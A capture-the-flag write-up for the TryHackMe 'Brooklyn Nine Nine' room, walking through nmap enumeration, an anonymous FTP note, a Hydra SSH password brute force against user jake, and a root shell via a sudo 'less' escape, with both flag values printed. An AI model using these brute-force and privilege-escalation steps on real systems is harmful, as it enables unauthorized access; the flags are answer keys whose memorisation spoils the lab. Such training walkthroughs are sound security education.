

# Brooklyn Nine Nine

> Platform: TryHackMe
>
> Created by: Fsociety2006
>
> Difficulty: Easy

## Enumeration

First of all, we will begin with the Nmap. Actually, you can just use a normal Nmap command, but here is my preferences.
```bash
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Brooklyn Nine Nine]
└─$ nmap -sVSC <TARGET-IP> -T5 -Pn -n -vvv -oA brooklyn99scan
Nmap scan report for <TARGET-IP>
Host is up, received user-set (0.20s latency).
Scanned at 2025-07-31 22:30:33 +08 for 23s
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:<TARGET-IP>
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQjh/Ae6uYU+t7FWTpPoux5Pjv9zvlOLEMlU36hmSn4vD2pYTeHDbzv7ww75UaUzPtsC8kM1EPbMQn1BUCvTNkIxQ34zmw5FatZWNR8/De/u/9fXzHh4MFg74S3K3uQzZaY7XBaDgmU6W0KEmLtKQPcueUomeYkqpL78o5+NjrGO3HwqAH2ED1Zadm5YFEvA0STasLrs7i+qn1G9o4ZHhWi8SJXlIJ6f6O1ea/VqyRJZG1KgbxQFU+zYlIddXpub93zdyMEpwaSIP2P7UTwYR26WI2cqF5r4PQfjAMGkG1mMsOi6v7xCrq/5RlF9ZVJ9nwq349ngG/KTkHtcOJnvXz
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBItJ0sW5hVmiYQ8U3mXta5DX2zOeGJ6WTop8FCSbN1UIeV/9jhAQIiVENAW41IfiBYNj8Bm+WcSDKLaE8PipqPI=
|   256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP2hV8Nm+RfR/f2KZ0Ub/OcSrqfY1g4qwsz16zhXIpqk
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/
```

From the Nmap results, looks like we can login to the ftp to get the **".txt"** file.
```bash
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Brooklyn Nine Nine]
└─$ ftp ftp@<TARGET-IP>
Connected to <TARGET-IP>.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||28984|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
229 Entering Extended Passive Mode (|||14628|)
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
100% |************************************************|   119      220.09 KiB/s    00:00 ETA
226 Transfer complete.
119 bytes received in 00:00 (0.59 KiB/s)
ftp> exit
221 Goodbye.
```

Try to read the **"note_to_jake.txt"** file:
```bash
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Brooklyn Nine Nine]
└─$ cat note_to_jake.txt   
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

Looks like Jake password are weak, so we may use password dictionaries to bruteforce it.

## Exploitation

Try to run hydra to bruteforce the SSH password for user jake:
```bash
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Brooklyn Nine Nine]
└─$ hydra -l jake -P /usr/share/wordlists/rockyou.txt <TARGET-IP> ssh  
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-31 23:14:14
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://<TARGET-IP>:22/
[22][ssh] host: <TARGET-IP>   login: jake   password: <JAKE-PASSWORD>
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-07-31 23:14:24
```

Nice! We can try SSH now and get the user.txt:
```bash
$ ssh jake@<TARGET-IP>

$ pwd
/home/jake

$ cat /home/holt/user.txt
```

<details>
<summary><b>🏳️Flag: user.txt</b></summary>
<b>ee11cbb19052e40b07aac0ca060c23ee</b>
</details><br>

## Privilege Escalation

Moving on to **escalate our privileges to root**. We need to find what can we leverage to spawn a privilege shell.

First we try to check with the sudo permission first
```bash
$ sudo -l
User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```

Now, let's check how can we spawn a privilege shell by using less. From [GTFObins - Less](https://gtfobins.github.io/gtfobins/less/), we can get privilege shell running the command from the Sudo section.
```bash
$ sudo /usr/bin/less /etc/profile
```

Then, in the file, type:
```bash
!/bin/sh
```

Now, we need to read the **"root.txt"** file to complete this machine.
```
# cat /root/root.txt
```



<details>
<summary><b>🏳️Flag: root.txt</b></summary>
<b>63a9f0ea7bb98050796b649e85481845</b>
</details><br>